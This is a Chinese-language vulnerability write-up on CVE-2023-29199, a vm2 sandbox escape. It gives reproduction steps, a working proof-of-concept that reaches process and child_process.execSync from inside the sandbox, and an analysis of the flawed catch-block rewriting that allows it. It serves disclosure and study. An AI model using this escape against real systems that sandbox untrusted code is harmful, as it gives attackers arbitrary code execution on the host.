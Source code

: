 ```yaml
---
title: CVE-2023-29199
---
```


# CVE-2023-29199

<vue-metadata author="swwind" time="2023-6-12"></vue-metadata>

vm2 是捷克 Patrik Simek 个人开发者的一个 Node.js 的高级虚拟机/沙盒。以使用列入白名单的 Node 内置模块运行不受信任的代码。

vm2 3.9.15 版本及之前版本存在安全漏洞。攻击者利用该漏洞绕过 `handleException()` 并泄漏未清理的主机异常，在其中主机环境中执行任意代码。

## 漏洞详情信息表

|  漏洞名称  |      vm2 安全漏洞      |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202304-1191    |
|  CVE 编号  | [CVE-2023-29199][nist] |
|    厂商    |       个人开发者       |
|  危害等级  |          超危          |
|  漏洞类型  |      沙箱逃逸漏洞      |

## 系统和软件环境配置详情信息表

- node v20.2.0
- yarn v1.22.19
- vm2 v3.9.15

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2023-29199` 指令新建目录用于测试。
2. 使用 `yarn init` 创建新的 nodejs 项目。
3. 使用 `yarn add vm2@3.9.15` 安装带有缺陷的 vm2 版本。

## 漏洞测试或验证详细步骤

### 编写代码

假设我们将 vm2 当作沙箱来运行任意代码，在披露中我们可以使用如下方式来绕过沙箱而获得整个程序的执行权限。

编辑 `index.js` 文件如下。

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule
        .require('child_process')
        .execSync('echo "flag is here" > flag');
}
`;

console.log(vm.run(code));
```

### 测试漏洞

使用 `node index.js` 执行上面的代码之后，就可以发现当前目录下多出现了一个 `flag` 文件，内容正好是 `flag is here`。

![](/assets/exploits/figure4/fig1.png)

从上可以看出，我们成功绕过了沙箱的各种限制，拿取到了 shell 的执行权限。

### 漏洞分析

我们尝试理解 vm2 对于 catch 块的转译工作。

首先 vm2 是对于 node 自带模块 vm 的一层包装，旨在提供安全的沙箱环境运行代码。

在代码运行之前，vm2 会利用 acorn 对代码进行适当的解析，通过注入代码等方式代理 nodejs 中的一些危险操作，例如 eval 和 Function 对象等。

但是其中的代码含有一些缺陷。例如在解析 catch 块的时候，vm2 使用了一些预占用变量 `$tmpname` 作为替代，之后再使用 `.replace(/\$tmpname/g, tmpname)` 进行统一的替换。

![](/assets/exploits/figure4/fig2.png)

L137 代码的原意是使得 catch 捕获之后的变量经过 `handleException` 处理之后保证不暴露出 nodejs 的原生函数。但是碍于 L121 中的 `$tmpname` 原因，需要在最后添加含有容易被注入的全局替换语句。

![](/assets/exploits/figure4/fig3.png)

L189 中的 replace 函数会将所有 `$tmpname` 都替换为 `tmpname` 变量（默认值为 `VM2_INTERNAL_TMPNAME`），因此这句注入的语句会被最终展开成如下代码。

```c
aVM2_INTERNAL_TMPNAME=VM2_INTERNAL_STATE_DO_NOT_USE_OR_PROGRAM_WILL_FAIL.handleException(aVM2_INTERNAL_TMPNAME);
```

从而有效避免了捕获的 `a$tmpname` 变量被替换，从而在下文中可以得到一个原生的 `InternalError` 对象。

![](/assets/exploits/figure4/fig4.png)

通过对这个原生的 `InternalError` 对象获取 `.constructor` 可以获取到 `function InternalError()`，再次通过 `.constructor` 就可以获取到 `function Function()` 对象，通过该构造函数传入 `"return process"` 就可以获取到 nodejs 的 `process` 对象，从而实现接下来的任意代码执行工作。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2023-29199
